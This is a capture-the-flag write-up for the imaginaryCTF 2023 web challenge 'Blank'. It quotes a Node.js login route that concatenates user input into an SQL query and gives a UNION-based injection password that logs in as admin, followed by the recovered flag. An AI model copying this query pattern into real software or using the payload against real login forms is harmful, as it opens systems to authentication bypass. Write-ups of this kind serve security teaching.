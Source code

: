 ```yaml
---
title: imaginaryCTF 2023 - Blank
date: Sun Jul 23 06:45:47 PM +04 2023
categories: [Writeup]
tags: [ctf,imaginaryctf,imaginaryctf2023,web]
---
```


## Description

by `Eth007`

I asked ChatGPT to make me a website. It refused to make it vulnerable so I added a little something to make it interesting. I might have forgotten something though...

**Attachments:** [Source](https://imaginaryctf.org/r/FVauo#blank_dist.zip)  <br>
**Server:** [http://blank.chal.imaginaryctf.org](http://blank.chal.imaginaryctf.org/)

## Analysis

Let's view source:

```js
...
// Database gets created in memory, so if application is restarted no record from previous actions are stored.
const db = new sqlite3.Database(':memory:');
...
// Create users table
db.serialize(() => {
  db.run('CREATE TABLE users (id INTEGER PRIMARY KEY AUTOINCREMENT, username TEXT, password TEXT)');
}); 
...
```

Login function:
```js
app.post('/login', (req, res) => {
  // Params from post request
  const username = req.body.username; 
  const password = req.body.password; 
	
  // SQLi detected
  db.get('SELECT * FROM users WHERE username = "' + username + '" and password = "' + password+ '"', (err, row) => {
    if (err) { 
      console.error(err); res.status(500).send('Error retrieving user');
    } else {
      if (row) {
        req.session.loggedIn = true;
        req.session.username = username;
        res.send('Login successful!');
      } else {
        res.status(401).send('Invalid username or password');
      }
    }
  });
});
```

Flag function:
```js
app.get('/flag', (req, res) => {
  if (req.session.username == "admin") {
    res.send('Welcome admin. The flag is ' + fs.readFileSync('flag.txt', 'utf8'));
  }
  else if (req.session.loggedIn) {
    res.status(401).send('You must be admin to get the flag.');
  } else {
    res.status(401).send('Unauthorized. Please login first.');
  }
});
```

## Solution

Attack vector is clear, use SQLi to gain admin access. But there's one huge problem, there are no users it table.

1. We need SQLi with username `admin`
2. We need SQLi to get admin

Payload:

```
Username = admin 
Password = " UNION SELECT 1337,"junk","junk" -- 
```

<small>Password values can be anything, but UNION requires same argument count and same types (or just NULL values)</small>

Visit `/flag`
```
Welcome admin. The flag is ictf{sqli_too_powerful_9b36140a}
```

> Flag: ictf{sqli_too_powerful_9b36140a}
{: .prompt-tip }